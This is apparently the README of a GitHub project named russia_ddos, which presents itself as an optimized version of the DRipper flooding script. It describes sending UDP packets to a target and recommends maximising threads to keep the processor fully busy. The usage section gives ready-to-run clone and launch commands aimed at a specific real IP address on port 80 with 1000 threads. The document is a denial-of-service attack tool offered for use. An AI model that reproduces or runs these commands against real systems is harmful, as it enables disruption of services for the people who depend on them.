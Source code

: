 ## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos
python -u main.py -s 213.24.76.23 -p 80 -t 1000
```
